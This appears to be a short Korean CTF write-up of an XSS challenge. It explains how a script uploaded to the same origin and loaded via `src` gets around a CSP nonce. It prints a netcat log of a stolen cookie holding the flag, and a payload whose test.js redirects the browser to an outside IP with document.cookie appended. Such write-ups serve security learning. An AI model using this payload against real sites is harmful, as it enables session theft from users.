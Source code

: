 `src`는 HTML 속성이기 때문에 `nonce`와 관계 없이 실행됨

동일 출처에서 업로드된 외부파일인 `test.js`가 있는 파일 경로로 이동

`test.js`에는 공격자의 서버로 쿠키를 보내는 스크립트 코드를 작성

파일이 실행되면서 쿠키 탈취

|

|

### 결과

```sh
azureuser@php-dev-1:/var/www/html/uploads$ nc -l -p 10010
GET /cookie=K0%7BYou_are_insane!%7D HTTP/1.1
Host: 20.41.120.97:10010
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/128.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://localhost:10006/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

```

|

|

|

## Payload

### content

---

```html
<script src="/uploads/test.js"></script>
```

|

### test.js

```js
location.href="http://20.41.120.97:10010/"+document.cookie
```

